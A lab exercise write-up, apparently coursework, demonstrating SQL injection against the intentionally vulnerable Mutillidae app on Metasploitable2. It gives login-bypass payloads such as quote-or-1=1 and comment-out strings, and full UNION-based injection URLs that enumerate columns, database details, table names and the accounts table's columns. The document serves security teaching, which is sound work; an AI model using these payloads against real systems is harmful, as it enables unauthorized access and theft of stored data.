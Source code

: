 # Ex08-SQL Injection
Exploiting SQL Injection vulnerability

# AIM:
To exploit SQL Injection vulnerability using Multidae web application in Metasploitable2

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode


### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
SQL Injection is a sort of infusion assault that makes it conceivable to execute malicious SQL statements. These statements control a database server behind a web application. Assailants can utilize SQL Injection vulnerabilities to sidestep application safety efforts. They can circumvent authentication and authorization of a page or web application and recover the content of the whole SQL database. Identify IP address using ifconfig in Metasploitable2
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/3242ef5b-2cad-420a-b6d7-e5882ce17ebd)

Use the above ip address to access the apache webserver of Metasploitable2 from kali linux. In Kali Linux use the ip address in a web browser.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/1a70bb63-70f4-4fe8-aa15-221adb647146)

Select Multidae from the menu listed as shown above. You will get the page as displayed below:
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/7f3d61d4-ed84-475d-a627-995dc8803656)

Click on the menu Login/Register and register for an account
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/9e405eee-bba2-44bf-a987-c71239fb56a4)

Click on the link “Please register here”
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/5e3f84b8-6032-4a4d-9abf-7d40108a7541)

Click on “Create Account” to display the following page:
The login structure we will use in our examples is straightforward. It contains two input fields (username and password), which are both vulnerable. The back-end content creates a query to approve the username and secret key given by the client. Here is an outline of the page rationale:
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/e9624bf1-5d5b-4425-9b3c-d7319af6753b)

($query = “SELECT * FROM users WHERE username=’$_POST[username]’ AND password=’$_POST[password]’“;). For the username put “ganesh” or “anything” and for the password put (anything’ or ‘1’=’1) or (admin’ or ‘1’=’1) then try to log in, and you’ll be presented with an admin login page.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/1b7f9538-7f82-482c-b0be-adeb192be3a6)

Click “Login”. The logged in page will show as below:
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/9e8e7d9f-d714-4756-b406-511712094804)

##Bypassing login field

The username field is vulnerable. Put (ganesh’ #) or (ganesh’--) in the username field and hit “Enter” to log in. We use “#” or “--” to comment everything in the query sentence that comes after the username filed telling the database to disregard the password field: (SELECT * FROM users WHERE username=’admin’ # AND password=’ ‘). By using line commenting, the aggressor eliminates a part of the login condition and gains access. This technique will make the “WHERE” clause true only for one user; in this case, it is “ganesh.”

Now after logging out you will see the login page. In the login page give ganesh’ # . You can see the page now enters into the administrator page as before when giving the password.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/ffc44ed6-1182-48dd-863c-2ffa29704a98)

Click the login button and you will see it enter into the administrator page.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/44392be5-efff-43ea-903e-5d362da9a182)

## Union-based SQL injection
UNION-based SQL injection assaults enable the analyzer to extract data from the database effectively. Since the “UNION” operator must be utilized if the two inquiries have precisely the same structure, the attacker must craft a “SELECT” statement like the first inquiry. we will be using the “User Info” page from Mutillidae to perform a Union-Based SQL injection attack. Go to “OWASP Top 10/A1 — Injection/SQLi — Extract-Data/User Info”

After logging out, Now choose the menu as shown below:
![image](https://github.com/user-attachments/assets/b168248e-9390-4b5c-83ce-d379ae78e4b2)


![image](https://github.com/user-attachments/assets/50745370-3dbb-42a9-8b4c-f780995a4e91)


![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/592b4943-2ccc-4440-8a06-8402430e512f)


![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/a8f98ae2-70db-4b96-a91f-cae6e429714f)

From this point, all our attack vectors will be performed in the URL section of the page using the Union-Based technique.There are two different ways to discover how many columns are selected by the original query. The first is to infuse an “ORDER BY” statement indicating a column number. Given the column number specified is higher than the number of columns in the “SELECT” statement, an error will be returned.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/de07fdd6-f197-4ecd-8bc9-71d39b0a5513)

Since we do not know the number of columns, we start at 1. To find the exact amount of columns, the number is incremented until an error related to the “ORDER BY” clause is returned. In this example, we incremented it to 6 and received an error message, so it means that the number of columns is lower than 6.

The browser url of this info page need to be modified with the url as below:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/0b172a00-aebd-4e78-966a-cdcc2d25c424)

After adding the order by 6 into the existing url , the following error statement will be obtained:
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/377fe020-ebbd-4279-aa35-68b29d5010b2)

When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/30bbc5e6-0efc-401a-a8b0-0ca657d7b7f3)

As it is having 5 columns the query worked fine and it provides the correct result
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/11437ebe-c4a0-4690-8503-58e0b5f67947)

Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/1cad5825-7f25-4d5d-85d6-8158046486a1)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information.

![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/24567fd9-1f56-4700-a905-37f9b51e3cf9)

Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/742af93e-720a-42e2-93bc-2eb7ee7bf10a)

The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/0d3223d2-9931-44a2-bea6-ac7ebb9a90ff)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/9e7baea6-b543-4781-b0b5-b6186030e2c6)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Sahithya373/sqlinjection/assets/147017926/12b6f8b0-aec2-4ecd-a99f-68f92f011eea)

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
